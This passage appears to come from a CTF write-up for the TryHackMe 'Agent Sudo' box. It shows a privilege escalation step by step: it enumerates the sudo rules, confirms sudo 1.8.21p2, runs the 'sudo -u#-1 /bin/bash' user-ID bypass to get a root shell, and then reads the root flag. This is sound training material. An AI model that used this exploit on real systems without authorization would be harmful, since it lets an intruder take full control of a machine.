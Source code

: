 ``` bash
sudo -l
```

``` bash
Matching Defaults entries for james on agent-sudo:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on agent-sudo:
    (ALL, !root) /bin/bash
```
We can see that james can run sudo as ALL, but *not* root.

Next, we'll check the version of sudo as on older versions it can be made to bypass this restriction.

``` bash
sudo -V
```
``` bash
Sudo version 1.8.21p2
Sudoers policy plugin version 1.8.21p2
Sudoers file grammar version 46
Sudoers I/O plugin version 1.8.21p2
```

Luckily this version is vulnerable to the bug, where calling sudo with a user id of "-1" automatically resolves to "0", or root.

``` bash
sudo -u#-1 /bin/bash
```

``` bash
whoami
root
```
Success! Now with root access we can find and print the root flag!

``` bash
find / -name root.txt
/root/root.txt
cat /root/root.txt
```

```
To Mr.hacker,

Congratulation on rooting this box. 
This box was designed for TryHackMe. 
Tips, always update your machine. 

Your flag is
********************************

By,
DesKel a.k.a Agent R
```
___
